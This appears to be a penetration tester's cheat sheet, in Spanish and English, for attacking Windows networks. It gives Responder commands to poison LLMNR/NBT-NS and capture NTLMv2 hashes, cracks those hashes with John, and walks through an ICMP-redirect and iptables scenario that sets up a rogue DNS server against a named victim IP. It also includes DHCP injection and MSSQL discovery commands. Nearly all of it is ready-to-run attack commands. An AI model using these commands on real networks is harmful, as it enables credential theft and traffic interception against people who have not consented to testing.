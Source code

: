 #responder.py -i YourIP -A              → -A Analyze Mode, be a ninja; Port scanning is for losers.

#responder.py -i YourIP -rFv            → -r use workstation redirector for NBT-NS
       					→ -F force auth on wpad.dat files retrieval (highly efficient)
                                        → -v be verbose, print all queries.

#responder -I eth0 -i 192.168.1.10 -A   → Analizamos las consultas LLMNR NBT-NS y Browser requests sin envenenar ni obtener 
				          credenciales
					  'This new mode offers a number of advantages for penetration testers looking to maximize 
					  stealth and perform reconnaissance. Passively discovered systems can be selectively added 
					  to the target whitelist option within the Responder.conf configuration file'
					
#responder -I eth0                      → Ponemos a trabajar a responder
En caso de Hashes capturados, ver carpeta /responder/logs, por ej. HTTP-NTLMv2-192.9.200.174.txt
#john HTTP-NTLMv2-192.9.200.174.txt     → destripamos con John

#responder -d SMB -i 192.9.200.MyIP -b 0 -s On -r 1 
→ → → → → -d Nombre de Dominio
	  -s Habilita el servidor HTTP
	  -r Seteado a 1 'responder' reponderá a las NBT-NS Workstation/Redirect queries
	  -b HTTP authentication

Scenario: 
Attacker 192.168.2.10 DNS-Server 192.168.3.58 Victim 192.168.2.39 GW 192.168.2.1
Desactivamos los ICMP requests salientes:
#iptables -A OUTPUT -p ICMP -j DROP
#Icmp-Redirect.py -i 192.168.2.10 -g 192.168.2.1 -t 192.168.2.39 -r 192.168.3.58
Ahora debería haber cambiado la ruta de la victima hacia el servidor DNS, deberíamos ser nosotros su nuevo RogueServerDNS
Ahora podemos crear una regla de Firewall con iptables para responder todos las consultas DNS por parte de la victima 192.168.2.39 hacia 192.168.3.58
#iptables -t nat-A PREROUTING -p udp --dst 192.168.3.58 --dport 53 -j DNAT--to-destination 192.168.2.10:53
Fromthere, Responder will reply to DNS requests and make use of its rogueauthentication servers.

#FindSQLSrv.py            → Map MSSQL servers on your subnet, one packet.

#DHCP.py -I eth0 -i 10.20.30.40 -d pwned.com -p 10.20.30.40 -s 10.20.30.1 -r 10.20.40.1
→ -i nuestra IP
→ -d Domain to inject
→ -p Primary Domain to inject
→ -s Secondary Domain to inject
→ -r Gateway/Router to inject


REF:
https://www.trustwave.com/Resources/SpiderLabs-Blog/Introducing-Responder-1-0/
https://www.trustwave.com/Resources/SpiderLabs-Blog/Owning-Windows-Networks-with-Responder-1-7/
https://www.trustwave.com/Resources/SpiderLabs-Blog/Owning-Windows-Networks-With-Responder-Part-2/
https://www.trustwave.com/Resources/SpiderLabs-Blog/Responder-2-0---Owning-Windows-Networks-part-3/

  ____ ____  _   _ _   _  ____ _   _ 
 / ___|  _ \| | | | \ | |/ ___| | | |
| |   | |_) | | | |  \| | |   | |_| |
| |___|  _ <| |_| | |\  | |___|  _  |
 \____|_| \_\\___/|_| \_|\____|_| |_|
                                     